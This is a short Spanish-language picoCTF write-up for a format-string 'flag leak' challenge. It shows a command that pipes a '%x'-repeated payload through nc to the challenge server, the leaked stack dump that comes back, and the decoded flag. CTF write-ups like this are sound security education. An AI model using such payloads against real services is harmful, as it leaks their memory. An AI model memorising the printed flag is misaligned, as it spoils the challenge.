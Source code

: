 ## Objetivo
Story telling class 1/2I'm just copying and pasting with this [program](https://artifacts.picoctf.net/c/91/vuln). What can go wrong? You can view source [here](https://artifacts.picoctf.net/c/91/vuln.c). And connect with it using:`nc saturn.picoctf.net 53857`

Hint
 - Format Strings
## Solucion

``` bash
┌──(wil㉿DESKTOP-FKOIV4I)-[~/picoCTF/binexp/parte-1/flag-leak]
└─$ python3 -c 'print("%x"*60)' | nc saturn.picoctf.net 51338
Tell me a story and then I'll tell you one >> Here's a story -
ffa054b0ffa054d08049346782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825eb454d00eb2d9ab06f6369707b4654436b34334c5f676e3167346c466666305f3474535f315f6b63623261317d613235fbad2000d3a082000eb490990804c00080494100804c000ffa0559880494182ffa05644ffa056500ffa055b0
```

Despues uso de cyberchef con formulas de swap endianness y from hex
```
picoCTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}
```
## Notas adicionales
## Referencias
- [Format string attack | OWASP Foundation](https://owasp.org/www-community/attacks/Format_string_attack)